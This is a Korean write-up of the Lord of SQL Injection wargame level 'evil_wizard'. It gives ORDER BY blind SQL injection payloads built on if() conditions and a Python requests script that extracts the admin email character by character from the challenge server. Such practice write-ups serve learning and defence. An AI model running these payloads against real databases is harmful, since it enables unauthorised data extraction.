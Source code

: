 ```yaml
---
title: LOS - 24번 evil_wizard
category: [Wargame, Lord of SQL Injection]
---
```


# [24] evil_wizard

## 문제

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FCPYrT%2FbtrocdvYsid%2FzK4XYNKw6I4J3h0KHsSM91%2Fimg.png">

## 풀이

소스 코드만 보면 이전 문제와 완전히 같다.

물론 같은 문제일리가 없으니 테이블 내부 데이터를 확인해본다.

<br>

다음은 order=1을 페이로드로 전달했을 때 볼 수 있는 테이블이다.


<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FzuOin%2FbtrobVbqsuX%2FD1PiXYZI0jjLsIzxh6LbNk%2Fimg.png">


이번 문제는 id ASC로 정렬해도, score ASC로 정렬해도 그 결과가 같을 것임을 예상할 수 있다.

<br>

그렇다면 이번에는,<br>

if 조건문의 참/거짓에 따라 각각 "1 ASC"와 "1 DESC"를 반환해주면 될 것 같다.

<br>

그렇게 해주면 if문의 조건이 참인 경우,<br>

admin 레코드가 위로 올라가게 되며, 이 경우 res.text에는 **50&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;rubiya** 가 포함될 것이다.

<br>

따라서, 전달해줄 페이로드는 다음과 같다.

<br>

[1] pw 길이 찾기

```
?order=if(id='admin' and length(email)=[길이], '1 ASC', '1 DESC')
```


[2] 완전한 pw 찾기

```  
?order=if(id='admin' and ascii(substr(email,{len},1))=[아스키], '1 ASC', '1 DESC')
```


[3] 참 판별

```
if("50</td></tr><tr><td>rubiya" in res.text)
```

<br>


**LoS 24번 Python 자동화 코드**이다.
```python
import requests

def send(param):
    url = "https://los.rubiya.kr/chall/evil_wizard_32e3d35835aa4e039348712fb75169ad.php"
    cookie = "tp0ja8gkvp5j75fm5lntqomope"
    head = {"PHPSESSID":f"{cookie}"}
    my_url = url+param
    res = requests.get(my_url, cookies=head)
    return res.text

print("💘 LoS 24를 시작합니다")

for num in range(0,100):
    param=f"?order=if(id='admin' and length(email)={num}, '1 ASC', '1 DESC')"
    if("50</td></tr><tr><td>rubiya" in send(param)):
        print(f"👏 email의 길이는 {num}입니다!")
        break

ans=""

for len in range(1, num+1):
    start = 32
    end = 127
    while True:
        middle = round((start+end)/2)
        param=f"?order=if(id='admin' and ascii(substr(email,{len},1))>={middle}, '1 ASC', '1 DESC') %23"
        if("50</td></tr><tr><td>rubiya" in send(param)):
            param=f"?order=if(id='admin' and ascii(substr(email,{len},1))={middle}, '1 ASC', '1 DESC') %23"
            if("50</td></tr><tr><td>rubiya" in send(param)):
                print(f"{len}번째 문자 → {chr(middle)}")
                ans+=chr(middle)
                break
            else:
                start = middle
                continue
        else:
            end = middle
            continue

print(f"👏 email의 정체는 [{ans}]입니다!")
```
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FlPVPv%2FbtrobTraaKg%2FQ8ClrhC9pPGBea0pOv6n0K%2Fimg.png">
  
Blind 공격 결과, admin의 email은 `aasup3r_secure_email@emai1.com` 임을 알 수 있다.
  
## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FFRzmL%2Fbtrob7Qa1Vp%2FcNk6I956Im1KcsZugbp5E1%2Fimg.png">